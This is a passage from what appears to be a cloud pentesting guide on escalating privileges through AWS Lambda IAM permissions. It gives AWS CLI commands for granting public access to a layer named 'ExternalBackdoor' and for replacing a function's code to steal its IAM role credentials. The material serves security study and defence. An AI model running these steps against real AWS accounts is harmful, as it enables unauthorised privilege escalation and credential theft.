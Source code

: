 **Potential Impact:** Direct privesc to the lambda service role used by granting permission to modify the code and run it.

### `lambda:AddLayerVersionPermission`

An attacker with this permission can **grant himself (or others) the permission `lambda:GetLayerVersion`**. He could access the layer and search for vulnerabilities or sensitive information

{% code overflow="wrap" %}
```bash
# Give everyone the permission lambda:GetLayerVersion
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion
```
{% endcode %}

**Potential Impact:** Potential access to sensitive information.

### `lambda:UpdateFunctionCode`

Users holding the **`lambda:UpdateFunctionCode`** permission has the potential to **modify the code of an existing Lambda function that is linked to an IAM role.**\
The attacker can **modify the code of the lambda to exfiltrate the IAM credentials**.

Although the attacker might not have the direct ability to invoke the function, if the Lambda function is pre-existing and operational, it's probable that it will be triggered through existing workflows or events, thus indirectly facilitating the execution of the modified code.

{% code overflow="wrap" %}
```bash
# Thezip should contain the lambda code (trick: DOwnload the current one and add your code there)
aws lambda update-function-code --function-name target_function \
    --zip-file fileb:///my/lambda/code/zipped.zip

# If you have invoke permissions:
aws lambda invoke --function-name my_function output.txt

# If not check if it's exposed in any URL or via an API gateway you could access
```
{% endcode %}

**Potential Impact:** Direct privesc to the lambda service role used.

### `lambda:UpdateFunctionConfiguration`

#### Introduction

[**Lambda Layers**](https://docs.aws.amazon.com/lambda/latest/dg/configuration-layers.html) allows to include **code** in your lamdba function but **storing it separately**, so the function code can stay small and **several functions can share code**.

Inside lambda you can check the paths from where python code is loaded with a function like the following:

```python
import json
import sys

def lambda_handler(event, context):
    print(json.dumps(sys.path, indent=2))
```
